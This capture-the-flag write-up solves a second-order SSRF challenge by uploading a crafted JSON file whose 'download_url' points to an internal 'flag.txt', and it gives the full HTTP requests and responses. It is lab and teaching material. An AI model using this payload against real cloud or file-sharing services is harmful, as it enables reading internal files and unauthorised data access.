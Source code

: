 # Cloud Smart Server to Reach Files
This challenge was based on the [this](https://github.com/httpvoid/writeups/blob/main/Hacking-Google-Drive-Integrations.md)
bug bounty writeup which is a second order SSRF in Google Drive integrations. 
It essentially boils down to the fact that the server issues a request to fetch
a JSON file which is parsed to retrieve a download URL. A request is made to
this URL and the file is donwloaded. 

This means that if the download URL is attacker controlled we can point it to
not just any URL but any file that might be on the system. 

## Solution
When reading the description we can see that we are supposed to read the 
`flag.txt` file, hinting that there is a arbitrary file read on the server.

When we open the website and start poking around we can see that we can upload,
view, and download files. As is shown in the following requests & responses,
notice that there is no difference between the responses whether we are viewing
or downloading the file.

```
GET /cloud/fetch?file_id=4320975e-b0fb-4050-abf2-a01038b3a5e6&view=true

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 18 Mar 2023 12:02:44 GMT
Content-type: image/png
Content-Length: 64675
Access-Control-Allow-Origin: *
Connection: close

ÿØÿà
```

```
GET /cloud/fetch?file_id=4320975e-b0fb-4050-abf2-a01038b3a5e6&download=true

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 18 Mar 2023 12:02:44 GMT
Content-type: image/png
Content-Length: 64675
Access-Control-Allow-Origin: *
Connection: close

ÿØÿà
```

Now if we poke at this functionality a bit more and see what happens if we 
remove the second argument altogether.

```
GET /cloud/fetch?file_id=4320975e-b0fb-4050-abf2-a01038b3a5e6

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 18 Mar 2023 12:05:50 GMT
Content-type: application/json
Content-Length: 171
Access-Control-Allow-Origin: *
Connection: close

{
  "download_url": "http://fileserver/ZeUViwv3F78/cute_cat.jpeg",
  "id": "4320975e-b0fb-4050-abf2-a01038b3a5e6",
  "name": "cute_cat.jpeg",
  "session": "ZeUViwv3F78"
}
```

We get a totally different response. We can see that we get a JSON file about 
the file itself, we see its ID, filename, and the session it is connected to
which is ours. However, and most importantly, we can see that there is a 
parameter we didn't see before which is the `download_url` parameter. 
Immediately this raises some red flags for those experiences with SSRFs. If we
can control the `download_url` what will happen? More importantly how can we 
try and control this parameter?

We can try and upload our own JSON file and see whether it prefers the uploaded
JSON over the created one. A simple test is to upload a new JSON file that 
points to the cat photo provided on the website.

```
POST /cloud/upload HTTP/1.1
Host: 172.22.0.3
Content-Length: 329
Cookie: session=ZeUViwv3F78
Connection: close

------WebKitFormBoundaryrl7TcU7tjSfBBAdt
Content-Disposition: form-data; name="file"; filename="testfile.png"
Content-Type: image/png

{
  "download_url": "http://fileserver/ZeUViwv3F78/cute_cat.jpeg",
  "id": "testid",
  "name": "testfile.png",
  "session": "ZeUViwv3F78"
}
------WebKitFormBoundaryrl7TcU7tjSfBBAdt--
```

Now to find the ID of our file we can simple do a `GET` request to `/cloud/list`.
Now we can do the view and download requests again and see what happens.


```
GET /cloud/fetch?file_id=682ce333-c0f0-4eea-a24c-d11bd90e22cb&view=true

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 18 Mar 2023 12:02:44 GMT
Content-type: image/png
Content-Length: 64675
Access-Control-Allow-Origin: *
Connection: close

{
  "download_url": "http://fileserver/ZeUViwv3F78/cute_cat.jpeg",
  "id": "testid",
  "name": "testfile.png",
  "session": "ZeUViwv3F78"
}
```

Ok we get the file we just uploaded as expected.

```
GET /cloud/fetch?file_id=682ce333-c0f0-4eea-a24c-d11bd90e22cb&download=true

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 18 Mar 2023 12:02:44 GMT
Content-type: image/png
Content-Length: 64675
Access-Control-Allow-Origin: *
Connection: close

ÿØÿà
```

We get the photo of the cat, a.k.a. the file we pointed to in the `download_url`
parameter! This means that the server for some reason chooses to parse the
`download_url` of the file we just uploaded over the created one due to some
bug in the system.

Now all we have to do is reproduce this but point the `download_url` to the `flag.txt`
file located on the fileserver as mentioned in the description.

```
POST /cloud/upload HTTP/1.1
Host: 172.22.0.3
Content-Length: 329
Cookie: session=ZeUViwv3F78
Connection: close

------WebKitFormBoundaryrl7TcU7tjSfBBAdt
Content-Disposition: form-data; name="file"; filename="testfile.png"
Content-Type: image/png

{
  "download_url": "http://fileserver/flag.txt",
  "id": "testid",
  "name": "testfile.png",
  "session": "ZeUViwv3F78"
}
------WebKitFormBoundaryrl7TcU7tjSfBBAdt--
```

After fetching the ID from `/cloud/list` we can download our file and voila:

```
GET /cloud/fetch?file_id=b91b9cb7-95f1-4399-a20f-43cc48e6f385&download=true HTTP/1.1

HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 18 Mar 2023 11:52:24 GMT
Content-type: image/png
Access-Control-Allow-Origin: *
Connection: close
Content-Length: 28

gg{wOw-th1s-SSRF-w4s-sc4ry}
```
